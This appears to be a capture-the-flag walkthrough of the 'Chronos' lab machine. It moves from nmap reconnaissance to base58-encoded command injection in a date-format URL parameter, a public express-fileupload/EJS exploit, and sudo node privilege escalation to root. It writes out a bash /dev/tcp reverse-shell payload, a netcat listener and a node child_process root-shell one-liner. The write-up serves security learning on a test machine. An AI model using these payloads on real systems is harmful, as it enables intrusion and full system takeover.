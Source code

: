 root@kali ~/D/C/CHRONOS# nmap -sS -A -T4 -p- 10.0.0.18

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:f2:83:a4:38:89:8d:86:a5:e1:31:76:eb:9d:5f:ea (RSA)
|   256 41:5a:21:c4:58:f2:2b:e4:8a:2f:31:73:ce:fd:37:ad (ECDSA)
|_  256 9b:34:28:c2:b9:33:4b:37:d5:01:30:6f:87:c4:6b:23 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-open-proxy: Proxy might be redirecting requests
|_http-cors: HEAD GET POST PUT DELETE PATCH

Going to http://10.0.0.18, we don't have functionaly, comments or anything that might help us, brute forcing the directories doesn't find anything either.
Going to http://10.0.0.18:8000 and looking at it's source code we find in the <script> tag this line:

http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL

Adding "10.0.0.18 chronos.local" to /etc/hosts and by going to the specified url, it seems we don't have permission to access this page.
Going to http://chronos.local:8000 we can see that the date and time is being specified, probably the 'date' command used in Linux.
We can try to decode the string that is been passed in the url, it seems like base64 but it's base58.

4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL Base58 Decode:

'+Today is %A, %B %d, %Y %H:%M:%S.'

%A - Day
%B - Month
%d - day (number_
%Y - Year
%H - Hour
%M - Minute
%S - Second

Turns out, this string format can be used with the 'date' command in Linux.

root@kali ~/D/C/CHRONOS# date '+Today is %A, %B %d, %Y %H:%M:%S.'
Today is Sunday, February 27, 2022 15:13:49.

This means we can inject a command and start a reverse shell.
By running date ;bash -c 'bash -i >& /dev/tcp/10.0.0.27/4444 0>&1' we can open a reverse shell on our local machine. All we need to do is decode the command and pass it in the url.

;bash -c 'bash -i >& /dev/tcp/10.0.0.27/4444 0>&1'

Base58 Encode:
jSQFn3DG86mbq9wJvQ3UZztDFRqBaqKWp7w5ghvh2eChdyAGQsPJeHXYmg6ECpV2itHc

http://chronos.local:8000/date?format=jSQFn3DG86mbq9wJvQ3UZztDFRqBaqKWp7w5ghvh2eChdyAGQsPJeHXYmg6ECpV2itHc

We are logged in as the 'www-data' user. We cannot run commands as root and there are no usefull SUID files on the machine. Going to the home directory we can find a user ---> 'imera'. We don't have permissions to view the directory.
At this point I got stuck for a bit, I searched for some expliots but found none. After some digging around I found that by going to /opt/chronos-v2/backend and by reading the file package.json:

/opt/chronos-v2/backend/package.json:
{
  "name": "some-website",
  "version": "1.0.0",
  "description": "",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
    "ejs": "^3.1.5",
    "express": "^4.17.1",
    "express-fileupload": "^1.1.7-alpha.3"
  }
}

It stats the "express-fileupload" is being used. express-fileupload is a way to upload and download files in Node.js. I of course searched if it has any vulnerabilites and found this github repository https://github.com/boiledsteak/EJS-Exploit.

By downloading and executing the expliot on victim machine and listening on my local machine, we are able to get a reverse shell as the user 'imera'.

Victim Machine:

www-data@chronos:/tmp$ python3 expliot.py
Starting Attack...
Finished!

Local Machine:

root@kali ~/D/C/CHRONOS# nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.0.0.27] from (UNKNOWN) [10.0.0.18] 51854
imera@chronos:/opt/chronos-v2/backend$ 

We now have permission to go the /home/imera directory and read user.txt.

user.txt:                                                                                              
byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK

Let's see if the user is part of the sudo group.

imera@chronos:/opt/chronos-v2/backend$ sudo -l
User imera may run the following commands on chronos:
    (ALL) NOPASSWD: /usr/local/bin/npm *
    (ALL) NOPASSWD: /usr/local/bin/node *

I searched online for 'linux node command privilege escalation' and found an article from GTFOBins https://gtfobins.github.io/gtfobins/node/.

Can use the command sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})' to spawn a root shell.

imera@chronos:~$ sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
<child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt
YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK

root.txt:
YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK